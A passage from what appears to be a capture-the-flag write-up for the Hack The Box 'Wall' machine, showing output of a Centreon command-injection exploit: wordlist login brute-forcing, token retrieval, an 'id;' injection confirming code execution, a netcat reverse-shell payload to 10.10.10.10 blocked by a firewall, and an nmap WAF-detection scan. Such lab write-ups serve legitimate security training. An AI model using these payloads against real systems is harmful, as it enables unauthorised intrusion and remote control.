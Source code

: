 Let's run the script against a wordlist (10k-most-common.txt).

```
Trying username: admin and password: password1
[+] Retrieving CSRF token to submit the login form
[+] Login token is : fe4fa64b86d37013a3865d49389077bf
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 7ef25405856c57b6abd4293e11aa6d03
[+] Injecting Done, triggering the payload
200
<?xml version="1.0" encoding="UTF-8"?>
<response><debug><![CDATA[<a href='#' onClick="toggleDebug('1'); return false;"><label id='togglerp_1' style='display: none'>[ + ]</label><label id='togglerm_1'>[ - ]</label></a> <b><font color='red'>Central</font></b><br/><div style='display: block;' id='debug_1'>uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)<br>sh: 1: -v: not found<br><br></div><br/>]]></debug><status><![CDATA[<b><font color='red'>NOK</font></b>]]></status><statuscode><![CDATA[1]]></statuscode><errorsPhp/></response>

Payload: id;
```

We found the password `password1`. And the code execution worked. We find out that that the user id is `www-data`.

Now that we have verified that the vulnerability exists, let's try to get a shell.

```
[+] Injecting Done, triggering the payload
403
<?xml version="1.0" encoding="UTF-8"?>
<response><debug><![CDATA[<a href='#' onClick="toggleDebug('1'); return false;"><label id='togglerp_1' style='display: none'>[ + ]</label><label id='togglerm_1'>[ - ]</label></a> <b><font color='red'>Central</font></b><br/><div style='display: block;' id='debug_1'>uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)<br>sh: 1: -v: not found<br><br></div><br/>]]></debug><status><![CDATA[<b><font color='red'>NOK</font></b>]]></status><statuscode><![CDATA[1]]></statuscode><errorsPhp/></response>

Payload: nc -e /bin/bash 10.10.10.10 8888;

```
Our nc reverse shell payload received a 403 Forbidden response, instead of a 200 OK like before.

This suggests that a web appplication firewall (WAF). Let's verify using an nmap script.

```
root@kali:~/htb/wall# nmap -p80 --script http-waf-detect --script-args="http-waf-detect.uri=/centreon" 10.10.10.157
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 14:28 +08
Nmap scan report for 10.10.10.157
Host is up (0.22s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-waf-detect: IDS/IPS/WAF detected:
|_10.10.10.157:80/centreon?p4yl04d3=<script>alert(document.cookie)</script>
```
